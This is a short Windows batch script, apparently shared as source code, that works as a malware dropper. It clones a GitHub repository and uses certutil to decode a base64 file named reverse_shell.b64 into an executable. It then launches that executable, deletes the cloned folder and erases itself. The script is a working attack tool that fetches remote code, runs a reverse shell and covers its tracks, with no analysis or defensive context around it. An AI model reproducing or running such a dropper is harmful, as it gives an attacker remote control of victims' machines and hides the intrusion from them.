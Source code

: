 @echo off
REM Define the paths
set "repoUrl=https://github.com/nithin434/stuff2.git"
set "repoDir=C:\stuff2"
set "b64File=%repoDir%\reverse_shell.b64"
set "exeFile=C:\reverse_shell.exe"

REM Clone the repository
git clone "%repoUrl%" "%repoDir%"

REM Check if the cloning was successful
if %errorlevel% neq 0 (
    echo Failed to clone the repository.
    exit /b %errorlevel%
)

REM Decode the base64 file into the executable
certutil -decode "%b64File%" "%exeFile%"

REM Check if the decoding was successful
if %errorlevel% neq 0 (
    echo Failed to decode the base64 file.
    exit /b %errorlevel%
)

REM Execute the decoded executable
start "" "%exeFile%"

REM Optionally, you can delete the repository folder and the batch script after execution
rmdir /s /q "%repoDir%"
del "%~f0"

REM End of script
